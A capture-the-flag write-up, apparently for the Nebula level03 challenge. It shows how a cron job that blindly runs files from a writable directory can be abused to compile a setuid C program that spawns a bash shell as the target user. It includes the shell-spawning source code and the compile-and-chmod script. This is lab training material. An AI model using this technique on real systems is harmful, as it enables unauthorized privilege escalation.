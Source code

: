 ## level03

The vulnerability exist because the crontab executes the script blindly without verifying the files.

Since it runs as user <b>flag03</b> we can put there a file (a C program that spawn a shell for example) and it will execute it.

```
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main(){
    gid_t gid = getegid();
    uid_t uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/bin/bash");
}
```

Now that we have a program that spawns a shell we need to compile it.
To make it possible to the run it as <b>flag03</b>, we need to compile it through the crontab execution.

```
#!/bin/sh

gcc /tmp/shell.c -o /home/flag03/shell
chmod u+s /home/flag03/shell
```

Now just copy it to the <b>writable.d</b> folder and wait for the scheduller to execute it.

Once it executed just /home/flag03/shell and issue <b>getflag</b>

### Flag
```
You have successfully executed getflag on a target account 
```

